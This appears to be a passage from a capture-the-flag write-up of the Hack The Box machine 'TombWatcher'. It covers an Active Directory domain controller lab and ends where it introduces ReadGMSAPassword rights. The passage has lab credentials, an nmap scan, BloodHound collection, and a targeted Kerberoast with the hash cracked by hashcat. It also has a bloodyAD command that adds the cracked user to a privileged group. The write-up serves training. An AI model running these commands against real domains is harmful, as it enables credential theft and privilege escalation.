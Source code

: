# TombWatcher

## Machine Information

Starting user: `henry / H3nry_987TGV!`

Domain: `tombwatcher.htb0`&#x20;

Domain SID: `S-1-5-21-1392491010-1358638721-2126982587`

DC: `DC01.tombwatcher.htb`&#x20;





## Port Scanning

```bash
nmap -T4 -sV -p- --min-rate 1000 --open -oN port_scan.txt 10.10.11.72

Nmap scan report for 10.10.11.72
Host is up (0.033s latency).
Not shown: 65515 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-06-10 15:13:25Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb0., Site: Default-First-Site-Name)
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb0., Site: Default-First-Site-Name)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
49683/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49684/tcp open  msrpc         Microsoft Windows RPC
49685/tcp open  msrpc         Microsoft Windows RPC
49705/tcp open  msrpc         Microsoft Windows RPC
49711/tcp open  msrpc         Microsoft Windows RPC
49734/tcp open  msrpc         Microsoft Windows RPC
58171/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

```



## Bloodhound Enumeration

First things first, run the `bloodhound-python` ingester to get all Domain data as `Henry` user.

{% code overflow="wrap" %}
```bash
bloodhound-python -c all -ns 10.10.11.72 -dc tombwatcher.htb -d tombwatcher.htb --zip -u 'henry' -p 'H3nry_987TGV!'
```
{% endcode %}



## Kerberost attack to user Alfred

As we can see bellow, there is a kerberoastable user.&#x20;

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
 ./targetedKerberoast.py --dc-ip '10.10.11.72' -v -d 'TOMBWATCHER.HTB' -u 'henry' -p 'H3nry_987TGV!'
```
{% endcode %}



Copy the retrived hash into a file

{% code title="kerb.txt" overflow="wrap" %}
```
$krb5tgs$23$*Alfred$TOMBWATCHER.HTB$TOMBWATCHER.HTB/Alfred*$c045c3aad...8bf8ec65b089
```
{% endcode %}

Try to crack it

```bash
hashcat -m 13100 -o creds.txt -a 0 kerb.txt /usr/share/wordlists/rockyou.txt
```

We've cracked it. The password for the user `Alfred` is `basketball` .

## AddSelf privilege on user Alfred

From bloodhound we can see which the user Alfred has privilege to add itself to INFRASTRUCTURE AD group.

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

{% code title="BloodyAD" overflow="wrap" %}
```bash
bloodyAD --host '10.10.11.72' -d 'TOMBWATCHER.HTB' -u 'Alfred' -p 'basketball' add groupMember INFRASTRUCTURE Alfred
```
{% endcode %}



## ReadGMSAPassword rights&#x20;

Always from bloodhound we notice that the group INFRASTRUCTURE has ReadGMSAPassword rights.

